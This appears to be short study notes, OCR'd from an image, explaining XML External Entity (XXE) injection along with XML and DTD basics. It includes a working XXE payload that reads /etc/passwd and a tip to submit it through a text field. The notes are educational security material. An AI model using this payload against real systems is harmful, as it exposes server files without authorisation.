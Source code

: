 XML External Entity

- in-band
    - direct response to a XXE payload
- out-of-band
    - (blind XXE)
    - no direct response and response hast to be redirected

Example:

Textfield with Submit:

```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

Submit an look for possible Output.


# XML

=> extensible Markup Language, 

- Markup to save and transport DATA
- platformindependet
- easy adaptable
- Validation per DTD Schema

Example:

```
<?xml version="1.0" encoding="UTF-8"?>
<rootelement>
  <childelement></childelement>
  <andereschild attribut="asdf"></andereschild>
</rootelement>
```

# DTD

DTD = Document Type Definition, defines Structure, legal Elements and Attributes of a XML Document

Example:

note.dtd
```
<!DOCTYPE note [ <!ELEMENT note (to,from,heading,body)> <!ELEMENT to (#PCDATA)> <!ELEMENT from (#PCDATA)> <!ELEMENT heading (#PCDATA)> <!ELEMENT body (#PCDATA)> ]>
```

usage.xml
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
    <to>falcon</to>
    <from>feast</from>
    <heading>hacking</heading>
    <body>XXE attack</body>
</note>
```

-   !DOCTYPE note = defines a root element with the name note
-   !ELEMENT note = defines which element has to contain note
-   !ELEMENT to = defines "to" as a\#PCDATA type
- \#PCDATA = parseable character Data

second Payload Example:

```
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>
```

```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

-   !ENTITY name = gets the value "feast" and is used
-   !ENTITY read SYSTEM = use the SYSTEM Keyword